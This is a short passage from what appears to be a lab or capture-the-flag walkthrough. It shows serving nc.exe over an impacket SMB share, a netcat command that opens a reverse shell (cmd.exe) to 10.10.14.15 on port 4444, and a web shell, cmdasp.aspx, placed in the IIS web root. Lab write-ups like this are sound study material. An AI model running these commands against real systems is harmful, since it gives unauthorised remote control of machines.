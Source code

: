 upload nc.exe, via smbserver

```bash
impacket-smbserver share ./

\\10.10.14.15\share\nc.exe -e cmd.exe 10.10.14.15 4444
```



![image-20220924232434035](./images/image-20220924232434035.png)

check c:\inetpub\wwwroot, cmdasp.aspx moved successful.

![image-20220924232651719](./images/image-20220924232651719.png)
